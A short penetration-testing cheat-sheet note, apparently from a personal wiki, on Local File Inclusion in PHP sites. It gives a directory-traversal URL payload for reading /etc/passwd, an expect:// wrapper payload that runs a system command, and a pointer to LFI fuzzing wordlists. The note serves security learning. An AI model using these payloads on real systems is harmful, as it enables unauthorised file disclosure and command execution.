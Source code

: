 LFI (Local File Inclusion) allows you to read the targets system files from website.

http://website.com/stuff/script.php?page=index.html

Now if its vulnerable you can turn it into this

http://website.com/stuff/script.php?page=../../../../../../../../../etc/passwd

And that will give output of /etc/passwd

## PHP Expect Wrapper
PHP expect:// allows execution of system commands, unfortunately the expect PHP module is not enabled by default.

?page=expect://ls

## Interesting files
You can find wordlists in /usr/share/wordlists/SecLists/Fuzzing/LFI/ for interesting files you can fuzz with, or check out [[Interesting files]]